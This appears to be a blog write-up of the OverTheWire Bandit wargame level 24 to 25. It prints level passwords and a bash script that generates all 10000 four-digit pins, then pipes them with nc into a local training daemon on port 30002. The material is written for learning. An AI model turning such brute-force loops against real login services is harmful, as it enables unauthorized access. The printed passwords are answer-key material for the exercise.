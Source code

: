 uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

For this one, we have to brute force a 4 digit pin to get the next password.

Directions: "A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing."

I went into my `/tmp/chuck/` folder and made a script called `get_25.sh`:

```bash
#!/bin/bash
passwd=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

touch attempts

for a in {0..9}{0..9}{0..9}{0..9}
do
    echo $passwd' '$a >> attempts
done
```

I then did `chmod u+x get_25.sh` to set execution permission. This creates a file called "attempts" where each line is the password from bandit24 followed by a space followed by a 4 digit number.

Next, we pipe in the contents of `attempts` into `nc localhost 30002`:

```bash
cat attempts | nc localhost 30002
```

This brute forces until we get the next password.

